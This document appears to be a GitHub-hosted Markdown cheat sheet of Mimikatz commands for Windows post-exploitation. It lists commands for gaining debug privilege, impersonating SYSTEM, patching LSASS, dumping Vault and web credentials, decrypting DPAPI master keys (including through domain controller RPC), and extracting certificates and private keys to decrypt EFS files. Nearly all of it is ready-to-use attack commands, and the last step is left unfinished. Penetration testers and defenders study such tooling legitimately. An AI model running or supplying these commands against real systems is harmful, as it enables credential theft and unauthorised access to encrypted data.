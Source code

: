 # MIMIKATZ

## Author: https://github.com/gentilkiwi/mimikatz

### Miscellaneous

1) Shows privileges on machine ( Ensure output is "20 OK")

       privilege::debug

2) Impersonate SYSTEM

       token::elevate

De-escalate from SYSTEM

    token::revert

3) Altering LSASS Logic (Dump network share credentials, RDP passwords, etc. Not recommended.)

Prevent LSASS from checking the credential type

    sekurlsa::patch 

### Credentials Dumping

1) Windows Vault stored credentials dumping (passwords and authentication tokens)

       vault::cred

2) Web Credentials Dumping

       vault::list

3) Extract Credentials with DPAPI

        dpapi::cred /in"%appdata%\Microsoft\Credentials\85HJK6B5J456KJ46KJ546435H3JK"

#### If dwFlags includes CRYPTPROTECT_SYSTEM, the blob is protected by the system and cannot be decrypted by a standard user. The guidMasterKey indicates the necessary master key for decryption.

Extract the master key

        dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-341242153252-423423531651-2536513646524-1104\cc354534jkb534jb5-09f8-dd24-fe8fr798fed"

BONUS: RPC for Domain Controllers

#### Domain controllers can decrypt master keys for authorized users using the RPC service.

        dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-341242153252-423423531651-2536513646524-1104\cc354534jkb534jb5-09f8-dd24-fe8fr798fed" /rpc

Final decryption

        dpapi::cred /in"%appdata%\Microsoft\Credentials\85HJK6B5J456KJ46KJ546435H3JK"

4) Decrypt Encrypted File System (EFS) Files

Decrypting EFS files involves:

#### 1) Retrieving and exporting the necessary certificate

#### 2) Locating and exporting the associated private key

#### 3) Decrypting the master key using the user password

#### 4) Using the decrypted master key to decrypt the private key

#### 5) Applying the decrypted private key to access the encrypted file

### PREREQUISITES:

#### 1) Encrypted file(s) access on a Windows System

#### 2) User's systemCertificates, Crypto and Protect folders. Location:

       C:\Users\USERNAME\AppData\Roaming\Microsoft

#### 3) Master key or a way to decrypt it. It can be any of the following: User's password, SHA1, NTLM, Domain Backup Key or a memory dump. We will use a password for this example.

### STEPS:

1) Get information about the encrypted file (Provides details like the certificate's fingerprint for example)

       cipher /c "C:\Users\USERNAME\Documents\encrypted.txt"

2) Export the certificate (This command saves the certificate to a .der file)

       crypto::system /file:"C:\Users\USERNAME\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\G89ED7G8DF6G8DGDF9878GV98DF" /export

3) Locate and export the Private Key

       dpapi::capi /in:"C:\Users\USERNAME\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-22353253535-164576453735-12352462464-1001\78fed6gf87edg687e6gg_e7fgegferger-jj54-dd09-214f-fwesfsefs"

#### TIP: Check if the pUniqueName field matches the container name from the certificate export step

4) Decrypt the Master Key

       dpapi::masterkey /in:"C:\Users\USERNAME\AppData\Roaming\Microsoft\Protect\S-1-5-21-22353253535-164576453735-12352462464-1001\1oiknjui1jkhui-4771-4578-o90x-fefs89f7s9" /password:USERPASS

5) Decrypt the Private Key

       dpapi::capi /masterkey:DECRYPTED_MASTERKEY /in:"C:\Users\USERNAME\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-22353253535-164576453735-12352462464-1001\78fed6gf87edg687e6gg_e7fgegferger-jj54-dd09-214f-fwesfsefs"

6) Decrypt the EFS file (Use the decrypted key. This step may involve using additional tools or scripts to apply the private key and decrypt the file content)
